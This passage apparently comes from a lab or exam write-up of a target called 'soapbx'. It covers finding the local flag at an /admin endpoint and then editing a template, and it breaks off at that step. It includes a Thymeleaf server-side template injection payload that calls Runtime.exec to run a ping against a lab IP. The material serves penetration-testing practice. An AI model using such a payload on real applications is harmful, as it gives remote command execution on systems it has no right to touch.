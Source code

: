 We can find the local.txt in `/admin` endpoint:

![](../examimages/soapbx-browser-localflag.png)

In burp:

![](../examimages/soapbx-burp-localflag.png)

Editing the template with the payload from book.hacktricks:
```java
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('ping -c 5 192.168.167.100')}" th:title='pepito'>
```

Edit the template: